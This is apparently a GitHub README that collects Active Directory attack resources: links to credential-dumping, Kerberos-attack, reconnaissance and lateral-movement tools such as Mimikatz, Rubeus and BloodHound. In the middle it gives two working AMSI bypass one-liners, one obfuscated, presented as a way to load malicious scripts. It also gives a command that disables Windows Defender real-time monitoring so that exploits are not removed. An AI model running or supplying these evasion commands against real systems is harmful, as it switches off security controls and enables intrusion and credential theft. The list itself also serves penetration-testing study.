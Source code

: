 # AD-Security-Resources

Bypass Execution Policy : 
https://blog.netspi.com/15-ways-to-bypass-the-powershell-execution-policy/

Huge list of AD security resources available below :
  https://adsecurity.org/
  https://www.harmj0y.net/
  https://m0chan.github.io/2019/07/31/How-To-Attack-Kerberos-101.html
  https://beta.hackndo.com/


Setting up active directory lab : <H2> https://github.com/outflanknl/Invoke-ADLabDeployer 

Bypassing Powershell execution policy issues : </H2>

Github links - AMSI Bypass for loading malicious scripts:
  <p>  https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell </p>
  Something that works quickly 
  <p>   sETItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{0}"-F'F','rE') ) ; ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL)."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ))."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),("{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"(${n`ULl},${t`RuE} ) </p>

This works !!!
(Thanks - https://burmat.gitbook.io/security/hacking/domain-exploitation#user-and-computers-with-unconstrained-delegation)
[Ref].Assembly.GetType('System.Management.Automation.Ams'+'iUtils').GetField('am'+'siInitFailed','NonPu'+'blic,Static').SetValue($null,$true)

Detailed Article on this subject : https://blog.f-secure.com/hunting-for-amsi-bypasses/


Constrained Language Mode : 
Constrained Language consists of a number of restrictions that limit unconstrained code execution on a locked-down system.  (https://devblogs.microsoft.com/powershell/powershell-constrained-language-mode/)

Check the below for bypassing this 
https://github.com/padovah4ck/PSByPassCLM
https://chickenpwny.github.io/concepts/bypass/



Turning of Windows Defender - Real Time Monitoring (for not letting exploits to be deleted):
Set-MpPreference -DisableRealtimeMonitoring $true

<H2> Recon of active directory objects :</h2>
<p>PowerView / Powersploit: https://github.com/PowerShellMafia/PowerSploit</p>

AD Module :
  https://github.com/samratashok/ADModule

Bloodhound
  https://github.com/BloodHoundAD/SharpHound
  https://github.com/BloodHoundAD/BloodHound

Lateral Movement Automation :
  https://github.com/GoFetchAD/GoFetch

Credential Dumping for all attacks (PTH, Kerberoasting, Golden Ticket Attack, Silver Ticket Attack, Skeleton Key Attack:
Mimikatz : https://github.com/gentilkiwi/mimikatz

Spraykatz - Credentials gathering tool automating remote procdump and parse of lsass process
  https://github.com/aas-n/spraykatz

Mimikittenz - Reading credentians from process :
  https://github.com/putterpanda/mimikittenz

Benjamin Delpy's Kekeo 
  https://github.com/gentilkiwi/kekeo/

Vincent LE TOUX's MakeMeEnterpriseAdmin
  https://github.com/vletoux/MakeMeEnterpriseAdmin

Rubeus :
  https://github.com/GhostPack/Rubeus

<H2> Pingcastle - AD Security :
  https://github.com/vletoux/pingcastle



